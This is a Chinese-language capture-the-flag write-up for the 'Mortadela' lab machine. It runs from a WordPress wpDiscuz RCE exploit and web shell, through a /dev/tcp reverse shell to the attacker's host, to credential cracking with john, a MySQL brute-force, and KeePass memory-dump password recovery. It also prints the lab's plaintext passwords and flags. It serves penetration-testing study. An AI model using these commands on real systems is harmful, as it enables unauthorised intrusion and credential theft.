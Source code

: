 # Mortadela

2025.03.07 https://thehackerslabs.com/mortadela/

## Ip

192.168.5.39

## Scan

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
```

80 web 发现 wordpress http://192.168.5.39/wordpress/ , 先 wpscan 枚举用户、主题、插件。

枚举到一个用户 mortadela ， wpdiscuz 7.0.4 存在未授权的 RCE 漏洞 https://www.exploit-db.com/exploits/49967 进行利用(首页上找到 Hello world! 的地址)：

```
python3 49967.py -u http://192.168.5.39/wordpress -p /index.php/2024/04/01/hola-mundo/
```

上传了 web shell : http://192.168.5.39/wordpress/wp-content/uploads/2025/03/kyeeokpkslauami-1741335246.7189.php , pass 为 cmd 。 进行连接验证：

```
curl http://192.168.5.39/wordpress/wp-content/uploads/2025/03/kyeeokpkslauami-1741335246.7189.php?cmd=ls
```

可以访问，直接反弹 shell：

```
curl -G --data-urlencode 'cmd=/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' http://192.168.5.39/wordpress/wp-content/uploads/2025/03/kyeeokpkslauami-1741335246.7189.php
```

先看 wp-config.php 文件：

```
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpress' );
define( 'DB_PASSWORD', 'lolalolitalola' );
define( 'DB_HOST', 'localhost' );
```

上面的数据库密码不是用户 mortadela 的密码。

在 /opt 中发现 muyconfidencial.zip , 有密码，下载到 kali 上 john 破解，zip 解压密码 pinkgirl ， 得到 keeppass 文件，john 不能爆出密码。 再看 KeePass.DMP 文件，不能拿到 kdbx 文件的密码。

现在没有其他方向，还有一个 mysql 3306 的开放端口，看看能不能爆破到 root 用户的密码，有可能在数据库中有密码信息：

```
[3306][mysql] host: 192.168.5.39   login: root   password: cassandra
```

登陆数据库，发现数据库 confidencial :

```
MariaDB [confidencial]> select * from usuarios;
+-----------+------------------+
| usuario   | contraseña       |
+-----------+------------------+
| mortadela | Juanikokukunero8 |
+-----------+------------------+
```

拿到了 mortadela 的 ssh 登陆密码 Juanikokukunero8 ，先读到了 user flag:

```
mortadela@mortadela:~$ cat user.txt
sajferoifgvpcnsorvn
```

下面要解决 keepass 的 dmp 文件，找到密码，使用这个利用 https://github.com/vdohney/keepass-password-dumper

```
crunch 14 14 -f /usr/share/crunch/charset.lst mixalpha-numeric -t @@ritrini12345 -o pass.txt

Maritrini12345
```

使用密码 Maritrini12345 打开 keepass 文件，拿到 root 的登陆密码 Juanikonokukunero 拿到 root flag：

```
root@mortadela:~# cat root.txt
aiugfurebaoergivthneioerv
```
